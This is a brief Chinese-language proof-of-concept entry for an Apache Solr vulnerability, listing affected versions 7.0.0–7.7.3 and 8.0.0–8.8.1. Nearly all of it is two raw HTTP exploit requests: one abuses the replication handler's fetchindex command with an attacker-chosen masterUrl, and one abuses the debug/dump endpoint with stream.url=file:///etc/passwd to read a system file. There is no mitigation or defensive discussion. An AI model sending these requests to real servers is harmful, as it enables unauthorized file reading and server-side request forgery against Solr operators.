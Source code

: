影響版本
--------

    Apache Solr 7.0.0 - 7.7.3 Apache Solr 8.0.0 - 8.8.1

POC
---

    GET /solr/test/replication?command=fetchindex&masterUrl=http://127.0.0.1/&wt=json&httpBasicAuthUser=&httpBasicAuthPassword= HTTP/1.1
    HOST:target
    ....

    GET http://xxxxx/solr/xxxx/debug/dump?stream.url=file:///etc/passwd&param=ContentStream HTTP/1.1
    HOST:target
    ...